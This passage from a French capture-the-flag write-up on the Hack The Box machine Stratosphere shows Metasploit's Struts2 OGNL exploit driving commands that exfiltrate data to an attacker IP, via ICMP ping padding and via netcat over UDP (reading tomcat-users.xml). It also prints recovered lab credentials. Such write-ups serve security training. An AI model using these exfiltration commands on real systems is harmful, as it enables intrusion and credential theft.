 Une autre solution est d'exfiltrer les données via ICMP comme c'était le cas pour le CTF Persistence :  

```plain
msf exploit(multi/http/struts2_content_type_ognl) > set CMD "ping -p `id | xxd -p -l 16` 10.10.14.209"
CMD => ping -p `id | xxd -p -l 16` 10.10.14.209
```

![HTB Stratosphere ICMP exfiltration with ping](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/stratos_ping_exfil.png)

Ça ne résous pas réellement notre problème à savoir le besoin d'obtenir un shell interactif (même sans pty, on ne fera pas les difficiles) ou une façon de déposer des fichiers sur la machine :(   

La solution la plus évidente serait d'ajouter notre clé SSH dans le fichier *.ssh/authorized\_keys* de l'utilisateur courant (*tomcat8*).  

Malheureusement son dossier personnel (*/var/lib/tomcat8* ne nous autorise pas l'écriture).  

La machine n'a pas non plus d'adresse IPv6... Comme dirait les fans de [NetHack](https://fr.wikipedia.org/wiki/NetHack), la *DevTeam* a pensé à tout :D  

Go go gadgeto enumerate
-----------------------

Déçu par ce manque d'ouverture d'esprit, j'ai décidé de continuer à énumérer la machine avec *Metasploit* d'un côté et de l'autre un *Ncat* en écoute sur un port UDP, faute de mieux.  

La suite logique du CTF semblait consister à obtenir les identifiants du Tomcat pour passer à un autre exploit bien connu :  

```plain
msf exploit(multi/http/struts2_content_type_ognl) > set CMD "cat /etc/tomcat8/tomcat-users.xml|netcat -u 10.10.14.209 9999"
CMD => cat /etc/tomcat8/tomcat-users.xml|netcat -u 10.10.14.209 9999
```

Les infos obtenues semblaient tout à fait réalistes :  

```html
<user username="teampwner" password="cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$" roles="manager-gui,admin-gui" />
```

Malheureusement elles se sont révélées être d'aucune utilité ici...  

Le mot de passe ne nous permet pas non plus d'accéder en SSH au compte utilisateur présent sur la machine :  

```plain
richard:x:1000:1000:Richard F Smith,,,:/home/richard:/bin/bash
```

Un bon gros *grep* des familles sur le terme *admin* permettra finalement de faire remonter le fichier */var/lib/tomcat8/db\_connect* (le nom du fichier ne semble pas standard d'après la quantité de résultats sur Google).  

```plain
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```
